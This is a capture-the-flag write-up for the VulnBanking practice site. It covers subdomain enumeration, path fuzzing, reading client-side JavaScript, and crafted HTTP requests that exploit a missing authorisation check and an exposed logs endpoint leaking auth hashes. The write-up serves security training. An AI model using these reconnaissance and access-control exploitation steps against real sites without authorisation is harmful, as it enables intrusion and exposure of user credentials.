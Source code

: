 # VulnBanking

http://www.vulnbanking.co.uk - 4 flags to find

![alt](./images/vulnbanking-01.png)

OK let's check subdomains first

```
└─$ assetfinder -subs-only vulnbanking.co.uk
vulnbanking.co.uk
hostmaster.vulnbanking.co.uk
```

OK so just the one, let's check that out later. For now just some content discovery

So doing a content fuzz on http://www.vulnbanking.co.uk/FUZZ gives the following

- /css/
- /js/
- /logout/

So not much. Just checking out the resources and links on the page however leads another couple of potential paths to check out.

First off there is inline javascript included 

```javascript
$('input.auth').click( function(){
    $.post('/api/login',{
        customer_number :   $('input[name="customer_number"]').val(),
        password        :   $('input[name="password"]').val()
    },function(resp){
        alert('Login Successful');
        window.location = '/session/' + resp.token;
    }).fail(function(){
        alert('Customer Number / Password combination invalid');
    })
});
```

And the login help link. So now I have a few extra things to check out

- /api/login - perhaps additional api endpoints to discover?
- /session/token - where token is some token received from a successful login
- /template-manager - the main style.css is loaded from this location. 
- /login-help - link on the login page

The template manager has another login form associated with it and its own app.js file

```javascript
templateManager = function (t) {
  for (ApiFire = function (t, e) {
    xhttp = new XMLHttpRequest,
    xhttp.open('POST', t, !0),
    xhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded'),
    xhttp.send('value=' + e)
  }, ApiCall = function (t) {
    console.log(t),
    url = '/template-manager/api/set-' + t,
    v = document.getElementById('val').value,
    ApiFire(url, v)
  }, i = 0; i < t.length; i++) try {
    document.getElementById(t[i]).addEventListener('click', function (t) {
      ApiCall(t.srcElement.id.replace('btn-', ''))
    })
  } catch (t) {
  }
}(['btn-background-color',
'btn-font-type',
'btn-font-color',
'btn-font-size']);
```

OK so template manager has more API endpoints. Which I think are POST requests to the following endpoints

- /template-manager/api/set-background-color
- /template-manager/api/set-font-type
- /template-manager/api/set-font-color
- /template-manager/api/set-font-size

Lets try these eg.

```
POST /template-manager/api/set-background-color HTTP/1.1
Host: www.vulnbanking.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

value=red
```

With a response

```
HTTP/1.1 401 Unauthorized
server: nginx/1.21.1
date: Tue, 12 Jul 2022 16:44:09 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnbanking.co.uk
connection: close
Content-Length: 27

["User must be authorised"]
```

We get the same response for all apart from set-font-color which gives the following response

```
HTTP/1.1 201 Created
server: nginx/1.21.1
date: Tue, 12 Jul 2022 16:46:24 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnbanking.co.uk
connection: close
Content-Length: 79

{"message":"Value Set","flag":"[^FLAG^xxx^FLAG^]"}
```

There's flag no.1, disclaimer I did find the next bit first :D

The login help has another form associated with it

![alt](./images/vulnbanking-02.png)

So starting at the top of the last set of content I found and doing a fuzz on http://www.vulnbanking.co.uk/api/FUZZ, I get one additional result back

- logs

Which gives me a json array of logs

```json
[{"date":"Tue, 12 Jul 2022 14:43:24 +0000","endpoint":"\/api\/login","auth_hash":"5e6f59f4f4150be8e61eaa20bec51a75","result":"success","flag":"[^FLAG^xxx^FLAG^]"},...,...}]
```

Flag no.2 found